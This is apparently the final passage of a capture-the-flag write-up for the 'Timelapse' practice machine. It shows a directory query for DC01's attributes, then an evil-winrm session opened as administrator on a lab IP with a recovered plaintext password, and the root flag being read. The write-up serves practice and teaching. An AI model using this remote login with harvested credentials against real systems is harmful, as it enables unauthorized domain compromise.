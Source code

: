     ms-Mcs-AdmPwdExpirationTime : 133000468494251195
    Name                        : DC01
    ObjectClass                 : computer
    ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
    SamAccountName              : DC01$
    SID                         : S-1-5-21-671920749-559770252-3318990721-1000
    UserPrincipalName           :
    <SNIP>

I was able to connect as `administrator` using the retreived password and get the root 
lag (which was located for an obscure reason on `TRX` desktop).

    :::text
    └─$ evil-winrm -u administrator -p '3S5cxvMIgY{D9a2eP%l4}QOs' -i 10.129.227.105 -S ./ #thuglegacy
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    timelapse\administrator
    *Evil-WinRM* PS C:\Users\Administrator> type ..\TRX\Desktop\root.txt
    0af718d3f4fe2658a8e38e07fa8a0a4e

# Wrapping up

An interesting and easy box, cracking the zip password and just after the PFX file seems a bit redundant.
Having the commands to run a process as another user in the PowerShell history file is nice
as it might avoid some headaches.

